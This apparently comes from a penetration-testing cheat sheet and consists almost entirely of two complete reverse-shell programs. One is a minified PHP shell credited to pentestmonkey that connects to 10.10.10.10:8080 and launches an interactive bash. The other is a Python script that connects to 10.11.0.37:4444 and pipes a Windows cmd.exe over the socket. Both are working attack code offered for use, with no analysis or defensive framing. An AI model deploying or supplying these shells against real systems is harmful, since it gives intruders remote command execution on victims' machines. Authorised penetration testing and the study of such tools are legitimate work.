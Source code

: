 ### PHP Reverse Shell - Minified

`<?php set_time_limit (0); $VERSION = "1.0"; $ip = "10.10.10.10"; $port = 8080; $chunk_size = 1400; $write_a = null; $error_a = null; $shell = "uname -a; w; id; /bin/bash -i"; $daemon = 0; $debug = 0; if (function_exists("pcntl_fork")) { $pid = pcntl_fork(); if ($pid == -1) { exit(1); } if ($pid) { exit(0); } if (posix_setsid() == -1) { exit(1); } $daemon = 1; } chdir("/"); umask(0); $sock = fsockopen($ip, $port, $errno, $errstr, 30); if (!$sock) { exit(1); } $descriptorspec = array(0 => array("pipe", "r"), 1 => array("pipe", "w"), 2 => array("pipe", "w")); $process = proc_open($shell, $descriptorspec, $pipes); if (!is_resource($process)) { exit(1); } stream_set_blocking($pipes[0], 0); stream_set_blocking($pipes[1], 0); stream_set_blocking($pipes[2], 0); stream_set_blocking($sock, 0); while (1) { if (feof($sock)) { break; } if (feof($pipes[1])) { break; } $read_a = array($sock, $pipes[1], $pipes[2]); $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null); if (in_array($sock, $read_a)) { $input = fread($sock, $chunk_size); fwrite($pipes[0], $input); } if (in_array($pipes[1], $read_a)) { $input = fread($pipes[1], $chunk_size); fwrite($sock, $input); } if (in_array($pipes[2], $read_a)) { $input = fread($pipes[2], $chunk_size); fwrite($sock, $input); } } fclose($sock); fclose($pipes[0]); fclose($pipes[1]); fclose($pipes[2]); proc_close($process); ?>`

_\(originally sourced from:_ [_https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php_](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)_\)_

### Python Reverse Shell for Windows

```python
import os,socket,subprocess,threading;

def s2p(s, p):
    while True:
        data = s.recv(1024)
        if len(data) > 0:
            p.stdin.write(data)

def p2s(s, p):
    while True:
        s.send(p.stdout.read(1))

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.11.0.37",4444))

p=subprocess.Popen(["\\windows\\system32\\cmd.exe"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE)

s2p_thread = threading.Thread(target=s2p, args=[s, p])
s2p_thread.daemon = True
s2p_thread.start()

p2s_thread = threading.Thread(target=p2s, args=[s, p])
p2s_thread.daemon = True
p2s_thread.start()

try:
    p.wait()
except KeyboardInterrupt:
    s.close()
```
